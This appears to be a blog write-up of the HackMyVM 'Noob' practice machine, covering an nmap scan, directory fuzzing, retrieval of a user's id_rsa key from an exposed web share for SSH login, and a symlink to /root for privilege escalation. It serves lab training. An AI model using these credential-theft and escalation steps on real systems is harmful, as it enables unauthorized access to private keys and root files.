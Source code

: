 ```yaml
---
layout: post
author: maxin
title:  "Noob"
date:   2021-12-31 09:37:05 AM -03
category: HackMyVM
---
```


[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Noob)

# Enumeration

{% highlight bash %}
# Nmap 7.92 scan initiated Mon Dec 27 14:56:11 2021 as: nmap -p- -v -oN nmapAllPorts 192.168.0.243
Nmap scan report for 192.168.0.243
Host is up (0.0042s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
65530/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Mon Dec 27 14:56:18 2021 -- 1 IP address (1 host up) scanned in 7.61 seconds
{% endhighlight %}

## Port 65530

{% highlight bash %}
PORT      STATE SERVICE VERSION
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
{% endhighlight %}

# WEB

We receive page not found on default path

## Fuzzing

{% highlight bash %}
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]
{% endhighlight %}

![Untitled](/images/noob/n4tshare.png)

- Go to the .ssh
- Get id_rsa
- authorized_keys reveal the user `adela`

{% highlight bash %}
ssh adela@$IP -i id_rsa
{% endhighlight %}

# Root

The goland on port 65530 is running has an admin

Adela home’s directory its mirroing on `n4tshare` path

- Make a symbolic link on adela home directory to root directory
- `ln -s /root/ /home/adela/`
- Return to the webserver and go to the `n4tshare`

![Untitled](/images/noob/root-part1.png)|![Untitled](/images/noob/root-part2.png)